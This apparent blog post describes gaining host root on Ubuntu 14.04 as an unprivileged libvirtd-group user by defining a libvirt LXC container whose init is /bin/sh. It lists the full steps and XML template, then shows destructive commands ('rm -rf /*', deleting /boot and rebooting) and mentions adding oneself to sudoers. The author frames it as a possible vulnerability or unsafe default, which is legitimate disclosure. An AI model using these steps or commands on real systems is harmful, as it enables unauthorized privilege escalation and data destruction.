 ```yaml
---
layout: post
title: Docker Container Madness
---
```


(...or How I Got Root in Less than 5 Minutes)

I'm unsure if this is actually a vulnerability or just a usability problem with the normal behaviour of [LXC](https://linuxcontainers.org/)/[Docker](https://www.docker.com/)/[Libvirt](https://libvirt.org/). Nevertheless, this seemingly harmless template file seems to cause **A LOT** of worry, as it allowed me to elevate privileges on the host system from an ordainary user account. I imagine new users of Docker, like myself, should be more concerned about how safe these defaults really are.

<p align="center">
<img src="https://raw.githubusercontent.com/adrianlshaw/adrianlshaw.github.com/master/images/docker.png" alt="Docker logo" title="Docker" style="width: 50%; height: 50%"/>
</p>

If you want to try this out, then here is the preamble if you are running a Debian-based Linux. In this case I am running Ubuntu 14.04.1. 
{% highlight bash %}
admin@host:~$ sudo apt-get install docker virt-manager
{% endhighlight %}

Create an unprivileged user, but with access to the `libvirtd` group:
{% highlight bash %}
admin@host:~$ sudo useradd -G libvirtd user 
admin@host:~$ sudo passwd user 
{% endhighlight %}
Now you should login as the ordinary user. Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. at /tmp/container.xml

{% highlight xml %}
<domain type='lxc'>
	<name>test</name>
	<memory>102400</memory>
	<os>
		<type>exe</type>
		<init>/bin/sh</init>
	</os>
	<devices>
		<console type='pty'/>
	</devices>
</domain>
{% endhighlight %}

Import the template into Libvirt:
{% highlight bash %}
user@host:~$ virsh define container.xml
{% endhighlight %}

Start the container. Make sure you have the Libvirt environment variable exported to work with LXC (e.g. `LIBVIRT_DEFAULT_URI=lxc:///`), such that Libvirt doesn't go looking for Xen or KVM.

{% highlight bash %}
user@host:~$ export LIBVIRT_DEFAULT_URI=lxc:///
user@host:~$ virsh start test
user@host:~$ virsh console test
{% endhighlight %}

And now try to run the **bash** shell:

{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
# bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. Without any prompt for a superuser password. 
What kind of messed up world is this? I can read/write to any file on the host:

Provide devastation:
{% highlight bash %}
root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively just cause a bit of downtime:

{% highlight bash %}
root@host:/# rm /boot/*; reboot;
{% endhighlight %}

You can access a lot of the system programs in /bin, but it's trivial to add yourself to the `sudoers` group instead. 
Is it possible to be careful with Docker? It doesn't seem safe for mortals and is hardly encouraging. Like what Dan Walsh said in a recent article, it seems that "containers do not contain". At least not without a lot of experience and carefully crafted configs. It would be a shame if such obscure semantics will let down the overall usability of the platform.

Thoughts are welcomed. Especially from Docker magicians - what are the semantics behind this configuration file? Privileges by default? My user had no superuser access...I expect them to remain that way. 

{% highlight bash %}
$ docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
{% endhighlight %}
